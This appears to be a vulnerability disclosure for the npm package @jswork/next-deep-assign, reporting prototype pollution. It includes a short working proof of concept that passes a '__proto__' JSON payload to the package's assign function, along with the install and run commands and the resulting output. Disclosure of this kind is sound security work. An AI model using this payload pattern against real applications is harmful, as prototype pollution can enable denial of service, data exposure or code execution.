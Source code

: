# Description

`@jswork/next-deep-assign` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const assign = require('@jswork/next-deep-assign')

console.log('Before: ' + {}.polluted)
assign({}, JSON.parse('{"__proto__": {"polluted": true}}'))
console.log('After: ' + {}.polluted)
```
2. Execute the following commands in the terminal:
```bash
npm i @jswork/next-deep-assign # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

